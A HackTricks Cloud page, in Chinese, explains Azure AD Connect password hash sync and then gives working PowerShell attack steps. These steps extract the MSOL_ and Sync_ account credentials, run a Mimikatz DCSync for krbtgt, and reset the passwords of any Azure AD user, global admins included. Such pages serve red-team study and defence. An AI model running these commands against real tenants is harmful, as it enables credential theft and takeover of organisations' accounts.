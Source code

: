 # Az - PHS - 密码哈希同步

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **密码哈希同步** 是实现混合身份的一种登录方法。**Azure AD Connect** 将用户密码的哈希值的哈希值从本地 Active Directory 实例同步到基于云的 Azure AD 实例。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地 AD 与 Azure AD 同步的 **最常见方法**。

所有 **用户** 和 **密码哈希的哈希值** 从本地同步到 Azure AD。然而，**明文密码** 或 **原始** **哈希** 不会发送到 Azure AD。\
此外，**内置** 安全组（如域管理员等）不会 **同步** 到 Azure AD。

**哈希同步** 每 **2 分钟** 发生一次。然而，默认情况下，**密码过期** 和 **账户** **过期** 在 Azure AD 中 **不同步**。因此，**本地密码过期**（未更改）的用户可以继续使用旧密码 **访问 Azure 资源**。

当本地用户想要访问 Azure 资源时，**身份验证在 Azure AD 上进行**。

**PHS** 是 **身份保护** 和 AAD 域服务等功能所必需的。

## 侧向移动

当配置 PHS 时，一些 **特权账户** 会自动 **创建**：

* 账户 **`MSOL_<installationID>`** 会在本地 AD 中自动创建。该账户被赋予 **目录同步账户** 角色（见 [文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地 AD 中具有 **复制（DCSync）权限**。
* 账户 **`Sync_<name of on-prem ADConnect Server>_installationID`** 会在 Azure AD 中创建。该账户可以 **重置 Azure AD 中任何用户**（同步或仅云）的密码。

这两个特权账户的密码 **存储在 SQL 服务器** 上，该服务器是 **Azure AD Connect 安装的服务器**。管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**加密配置** 是用 **DPAPI** 加密的，它包含本地 AD 中 **`MSOL_*`** 用户的 **密码** 和 AzureAD 中 **Sync\_\*** 的密码。因此，妥协这些信息可以提升到 AD 和 AzureAD 的权限。

您可以在此演讲中找到 [关于这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD Connect 服务器**

如果 **安装 Azure AD Connect 的服务器** 加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

妥协 **`Sync_*`** 账户可以 **重置任何用户的密码**（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也可以**仅修改云**用户的密码（即使这出乎意料）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
可以转储该用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，而**Sync**用户有**权限**这样做，然后**访问该服务主体**作为特权提升的方法。
{% endhint %}

### 无缝单点登录

可以使用PHS进行无缝单点登录，这对其他滥用行为是脆弱的。请查看：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
